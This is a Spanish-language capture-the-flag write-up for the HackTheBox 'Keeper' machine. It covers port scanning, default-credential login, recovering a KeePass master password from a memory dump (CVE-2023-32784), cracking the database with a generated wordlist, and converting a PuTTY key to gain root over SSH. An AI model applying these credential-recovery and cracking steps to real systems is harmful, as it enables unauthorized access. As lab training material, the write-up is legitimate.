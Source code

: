 ```yaml
---
title: HackTheBox - Keeper
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Default Credentials', 'Keepass Dump (CVE-2023-32784)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Keeper/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Keeper Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **Default Credentials, Keepass Dump (CVE-2023-32784)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Keeper`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Keeper/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos**

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Keeper/02-versions.png)


> Al visitar la página web veremos un host, el cual añadimos al archivo **`/etc/hosts`**
{: .prompt-info }

![](/assets/images/HTB/Easy/Keeper/03-web.png)


* Al visitar el host **tickets.keeper.htb** vemos el siguiente logo

    ![](/assets/images/HTB/Easy/Keeper/04-logo.png)

* Si buscamos por credenciales por defecto veremos **root:password**, después de autenticarnos buscamos usuarios válidos

    ![](/assets/images/HTB/Easy/Keeper/05-users.png)

* Seleccionamos al usuario **lnorgaard** y en su descripción obtendremos una contraseña válida para **SSH**

    ![](/assets/images/HTB/Easy/Keeper/06-pass.png)

d. Nos autenticamos en el servicio **SSH**

```bash
root@kali> ssh lnorgaard@10.10.11.227
lnorgaard@keeper:~$ 
```

### Escalada de Privilegios 💹

a. En nuestro directorio personal veremos una archivo **.zip**

```bash
lnorgaard@keeper:~$ ls -la
total 332856
<SNIP>
-rw-r--r-- 1 root      root       87391651 Aug 25 05:44 RT30000.zip
```

* Transferimos este archivo a nuestra máquina atacante para analizarlo

    ```bash
    lnorgaard@keeper:~$ python3 -m http.server 4444
    --------------------------------------------------------
    root@kali> wget http://<IP Keeper>:4444/RT30000.zip -o-
    root@kali> unzip RT30000.zip
    root@kali> ls
    -rw-r--r-- 1 root root 253395188 May 24 05:51 KeePassDumpFull.dmp
    -rw-r--r-- 1 root root      3629 Aug 23 12:43 passcodes.kdbx
    ```

b. Extraemos el hash del fichero **.kdbx** (**`keepass2john passcodes.kdbx > hash`**), como tenemos un archivo **.dmp** buscamos sobre al relacionado a **Keepass** y **.dmp**

* Nos encontramos con [CVE-2023-32784](https://github.com/vdohney/keepass-password-dumper), vemos que a través de un archivo **.dmp** de Keepass podemos llegar a obtener la contraseña en texto claro

    ```bash
    root@kali> dotnet run KeePassDumpFull.dmp 
    1.:     ●
    2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M, 
    3.:     d, 
    4.:     g, 
    5.:     r, 
    6.:     ø, 
    7.:     d, 
    8.:      , 
    9.:     m, 
    10.:    e, 
    11.:    d, 
    12.:     , 
    13.:    f, 
    14.:    l, 
    15.:    ø, 
    16.:    d, 
    17.:    e, 
    Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
    ```
    > El primer carácter no fue capaz de extraerse y el segundo puede ser cualquiera entre **{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}**


    > En caso de obtener un error al ejecutar el comando anterior, modificamos el fichero **`keepass_password_dumper.csproj`** con esto:
    {: .prompt-tip }


    ```xml
    <Project Sdk="Microsoft.NET.Sdk">
        <PropertyGroup>
        <OutputType>Exe</OutputType>
        <TargetFramework>net6.0</TargetFramework>
        <ImplicitUsings>enable</ImplicitUsings>
        <Nullable>enable</Nullable>
        </PropertyGroup>
    </Project>
    ```

c. Creamos un script en **python** para crear un diccionario con posibles contraseñas basándonos en el output del script

```python
import string
possible_password = 'dgrød med fløde'

string_global = string.ascii_letters + string.digits + string.punctuation
posible_second_character = "øÏl`-',]§AI:=_cM"

for second in posible_second_character:
	for letter in string_global:
		partial = second + possible_password 
		print(letter + partial)
```

```bash
python3 script.py > possible_passwords.txt
```

* Crackeamos el hash usando el diccionario creado previamente

    ```bash
    root@kali> john hash -w=./possible_passwords.txt 
    ```

d. Con la credencial obtenida podemos leer el contenido del fichero **passcodes.kdbx**

![](/assets/images/HTB/Easy/Keeper/07-keepass.png)

* El usuario root tiene una clave **Putty** y para transformarla a pares de claves **SSH**, copiamos esta clave en una archivo **.ppk** y usamos este [blog](https://www.baeldung.com/linux/ssh-key-types-convert-ppk)

```bash
root@kali> puttygen file.ppk -O public-openssh -o id_rsa.pub
root@kali> puttygen file.ppk -O private-openssh -o id_rsa
root@kali> chmod 600 id_rsa
```

c. La clave **id_rsa** nos sirve para autenticarnos en el servicio **SSH** como el usuario root

```bash
root@kali> ssh root@<IP Keeper> -i id_rsa
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

root@keeper:~#
```